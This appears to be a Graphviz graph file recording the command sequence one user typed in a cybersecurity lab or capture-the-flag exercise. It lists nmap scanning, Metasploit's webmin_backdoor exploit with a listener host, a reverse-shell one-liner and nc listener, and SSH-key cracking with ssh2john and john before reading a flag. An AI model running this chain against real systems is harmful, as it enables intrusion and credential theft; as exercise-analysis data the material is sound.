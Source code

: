// creating graph for user: 44
digraph {
	node [shape=box]
	0 [label="nmap --help A0 "]
	1 [label="nmap -v 172.18.1.5 A0 "]
	2 [label="msfconsole U"]
	3 [label="search webmin U"]
	4 [label="use exploit/unix/webapp/webmin_backdoor  U"]
	5 [label="show options U"]
	6 [label="set rhosts 172.18.1.5 U"]
	7 [label="run U"]
	8 [label="set lhost 10.1.135.83 U"]
	9 [label="run U"]
	10 [label="cd /root/.ssh U"]
	11 [label="cd .ssh U"]
	12 [label="ls U"]
	13 [label="ls -la U"]
	14 [label="ssh-keygen -t rsa U"]
	15 [label="show options U"]
	16 [label="run U"]
	17 [label="python -c 'import subprocess; p=subprocess.call([/bin/sh U"]
	18 [label="nc -nvlp 225 U"]
	19 [label="cd . U"]
	20 [label="cd .. U"]
	21 [label="ls -la U"]
	22 [label="ls U"]
	23 [label="ls -la U"]
	24 [label="ls -a U"]
	25 [label="ls -l U"]
	26 [label="ssh eve@10.1.17.4 --help U"]
	27 [label="ssh -i eve.key eve@10.1.17.4 U"]
	28 [label="chown key.eve 0644 U"]
	29 [label="chmod key.eve 0644 U"]
	30 [label="chmod 0644 key.eve U"]
	31 [label="ls U"]
	32 [label="chmod 0644 eve.key U"]
	33 [label="ssh -i eve.key eve@10.1.17.4 U"]
	34 [label="sudo ssh -i eve.key eve@10.1.17.4 U"]
	35 [label="chmod 0700 eve.key U"]
	36 [label="ssh -i eve.key eve@10.1.17.4 U"]
	37 [label="ssh2john eve.key > eve.hash U"]
	38 [label="locate ssh2john.py U"]
	39 [label="python ssh2john.py eve.key > eve.hash A5 M5 "]
	40 [label="ls U"]
	41 [label="cat eve.hash U"]
	42 [label="john eve.hash -wordlist=rockyou.txt U"]
	43 [label="locate rockyou.txt U"]
	44 [label="john eve.hash -wordlist=/usr/share/wordlists/rockyou.txt U"]
	45 [label="ssh -i eve.key eve@10.1.17.4 U"]
	46 [label="ls U"]
	47 [label="ls -la U"]
	48 [label="cd top-secret/ U"]
	49 [label="ls -la U"]
	50 [label="cat flag.txt A8 M8 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	rankdir=LR
}
